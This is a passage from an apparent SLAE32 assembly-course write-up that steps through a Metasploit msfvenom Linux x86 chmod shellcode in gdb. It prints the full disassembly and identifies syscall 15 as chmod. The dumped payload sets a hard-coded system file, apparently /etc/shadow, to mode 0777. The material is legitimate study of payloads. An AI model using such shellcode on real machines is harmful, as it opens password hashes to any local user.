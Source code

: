 Now that we know the payload is working, we can start analyzing it with `gdb`. Run `shellcode` on `gdb` and don't print version number on startup:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod$ gdb ./shellcode -q
Reading symbols from ./shellcode...(no debugging symbols found)...done.
(gdb) 
```

By default, `gdb` disassembles each program in `AT&T` syntax of `Assembly`. In order to change it to `Intel` syntax and make it more readable we run the following command:

```shell
(gdb) set disassembly-flavor intel
```

Now can set a breakpoint at the shellcode (`buf` variable) by first finding its address. Then we can run and disassemble in order to see the instructions at that point.

```shell
(gdb) print/x &buf
$1 = 0x804a040
(gdb) break *0x804a040
Breakpoint 1 at 0x804a040
(gdb) run
Starting program: /home/geobour98/SLAE/custom/SLAE32/5_Msfvenom_payloads/1_chmod/shellcode 
Shellcode Length:  7

Breakpoint 1, 0x0804a040 in buf ()
(gdb) disassemble 
Dump of assembler code for function buf:
=> 0x0804a040 <+0>:	cdq    
   0x0804a041 <+1>:	push   0xf
   0x0804a043 <+3>:	pop    eax
   0x0804a044 <+4>:	push   edx
   0x0804a045 <+5>:	call   0x804a056 <buf+22>
   0x0804a04a <+10>:	das    
   0x0804a04b <+11>:	gs je  0x804a0b1
   0x0804a04e <+14>:	das    
   0x0804a04f <+15>:	jae    0x804a0b9
   0x0804a051 <+17>:	popa   
   0x0804a052 <+18>:	outs   dx,DWORD PTR fs:[esi]
   0x0804a054 <+20>:	ja     0x804a056 <buf+22>
   0x0804a056 <+22>:	pop    ebx
   0x0804a057 <+23>:	push   0x1ff
   0x0804a05c <+28>:	pop    ecx
   0x0804a05d <+29>:	int    0x80
   0x0804a05f <+31>:	push   0x1
   0x0804a061 <+33>:	pop    eax
   0x0804a062 <+34>:	int    0x80
   0x0804a064 <+36>:	add    BYTE PTR [eax],al
End of assembler dump.
```

The hex value `0xf` (`15` in decimal) is pushed to the stack and then is popped and saved to `EAX` register. Since the syscall number is saved in `EAX` register, we can identify from the header file: `/usr/include/i386-linux-gnu/asm/unistd_32.h` that the syscall with number `15` is for `chmod` (`#define __NR_chmod 15`).
